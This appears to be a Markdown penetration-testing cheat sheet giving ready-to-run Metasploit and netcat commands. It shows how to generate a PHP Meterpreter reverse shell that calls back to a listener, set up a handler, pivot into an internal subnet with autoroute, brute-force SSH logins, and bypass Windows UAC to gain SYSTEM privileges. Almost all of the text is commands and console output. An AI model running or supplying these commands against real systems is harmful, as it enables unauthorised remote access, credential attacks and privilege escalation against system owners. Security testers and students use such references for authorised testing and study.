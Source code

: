 <b>Basic `Netcat` Command</b>

`nc -lnvp <port>` [In the Attacker Machine]

## <u>Metasploit</u>

<b>Generate PHP reverse shell [msfvenom]</b>

`msfvenom -p php/meterpreter_reverse_tcp lhost=192.168.0.1 lport=4444 -o meterpreter.php`

```
$ msfconsole 
msf5> use exploit/multi/handler
msf5 exploit(handler)> set payload windows/meterpreter/reverse_tcp
msf5 exploit(handler)> set payload php/meterpreter_reverse_tcp
msf5 exploit(handler)> set lhost 192.168.0.1
msf5 exploit(handler)> set lport 4444
msf5 exploit(handler)> exploit
```

### <b>Add routing protocols in msfconsole</b>

`meterpreter> run autoroute -s 172.16.50.0/24`

### <b>Use SSH Bruteforce in msfconsole</b>

```
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 172.16.50.222
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

<b>View Active sessions using `sessions` command</b><br>
<b>Interact with `sessions` using `sessions -i <number>`<b>
<b>Background a shell using <i>meterpreter> `background`</i> command</b>



Note that in modern Windows Operating systems, the User Account Control policy prevents privilege escalation.

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect.
```
<b>Bypassing UAC</b>

You can bypass that restriction by using the bypassuac module.

```
meterpreter > background
[*] backgrounding session1 …

msf exploit(handler) > search bypassuac

msf  exploit(handler) > use exploit/windows/local/bypassuac

# Configuring the module

msf exploit(bypassuac) > show options
msf exploit(bypassuac) > set session 1
msf exploit(bypassuac) > exploit

# Bypassing UAC

The new session has the UAC policy disabled, so the getsystem command works !
```